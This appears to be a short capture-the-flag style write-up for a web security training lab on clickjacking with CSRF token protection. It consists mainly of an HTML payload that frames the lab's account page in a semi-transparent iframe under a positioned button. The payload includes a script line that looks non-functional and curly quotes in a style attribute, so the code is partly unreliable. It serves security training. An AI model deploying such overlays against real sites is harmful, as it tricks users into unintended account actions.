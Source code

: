 # Lab: Basic clickjacking with CSRF token protection

URL: 


We will use the following payload:

```
<input type=button value="click" style="z-index:-1;left:1200px;position:relative;top:800px;"/>
<iframe src="https://0a61002303510d3180cf44570053000f.web-security-academy.net/my-account" width=100% height=100% style=”opacity: 0.5;”>
<script>document.buttons[1].click()</script>
</iframe>
```